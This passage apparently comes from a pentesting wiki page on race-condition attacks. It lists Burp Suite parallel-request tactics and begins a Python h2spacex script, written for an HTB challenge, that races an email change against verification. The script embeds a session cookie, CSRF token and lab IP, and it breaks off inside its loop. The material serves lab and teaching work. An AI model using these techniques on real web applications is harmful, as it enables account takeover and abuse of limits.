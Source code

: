 * It's also available in **Repeater** via the new '**Send group in parallel**' option in Burp Suite.
  * For **limit-overrun** you could just add the **same request 50 times** in the group.
  * For **connection warming**, you could **add** at the **beginning** of the **group** some **requests** to some non static part of the web server.
  * For **delaying** the process **between** processing **one request and another** in a 2 substates steps, you could **add extra requests between** both requests.
  * For a **multi-endpoint** RC you could start sending the **request** that **goes to the hidden state** and then **50 requests** just after it that **exploits the hidden state**.

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

* **Automated python script**: The goal of this script is to change the email of a user while continually verifying it until the verification token of the new email arrives to the last email (this is because in the code it was seeing a RC where it was possible to modify an email but have the verification sent to the old one because the variable indicating the email was already populated with the first one).\
  When the word "objetivo" is found in the received emails we know we received the verification token of the changed email and we end the attack.

```python
# https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
# Script from victor to solve a HTB challenge
from h2spacex import H2OnTlsConnection
from time import sleep
from h2spacex import h2_frames
import requests

cookie="session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiZXhwIjoxNzEwMzA0MDY1LCJhbnRpQ1NSRlRva2VuIjoiNDJhMDg4NzItNjEwYS00OTY1LTk1NTMtMjJkN2IzYWExODI3In0.I-N93zbVOGZXV_FQQ8hqDMUrGr05G-6IIZkyPwSiiDg"

# change these headers

headersObjetivo= """accept: */*
content-type: application/x-www-form-urlencoded
Cookie: """+cookie+"""
Content-Length: 112
"""

bodyObjetivo = 'email=objetivo%40apexsurvive.htb&username=estes&fullName=test&antiCSRFToken=42a08872-610a-4965-9553-22d7b3aa1827'

headersVerification= """Content-Length: 1
Cookie: """+cookie+"""
"""
CSRF="42a08872-610a-4965-9553-22d7b3aa1827"

host = "94.237.56.46"  
puerto =39697


url = "https://"+host+":"+str(puerto)+"/email/"

response = requests.get(url, verify=False)


while "objetivo" not in response.text:

```